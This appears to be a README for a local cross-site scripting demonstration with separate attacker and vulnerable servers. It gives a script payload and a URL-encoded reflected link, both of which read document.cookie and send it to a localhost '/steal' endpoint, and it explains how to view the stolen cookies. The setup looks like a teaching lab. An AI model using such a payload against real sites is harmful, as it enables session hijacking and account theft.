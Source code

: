 First of all, try to install node_modules: npm install
Then run attacker and server: npm start
Paste payload in server input field: 
<script>
  const cookies = encodeURIComponent(document.cookie);
  new Image().src = `http://localhost:3001/steal?cookie=${cookies}`;
</script>
 You will see link to website like http://localhost:3000/search?query=%3Cscript%3Enew%20Image().src%3D%22http%3A%2F%2Flocalhost%3A3001%2Fsteal%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E
 Open this one in incognito mode, then go to console of atckker and look at stolen coockies.
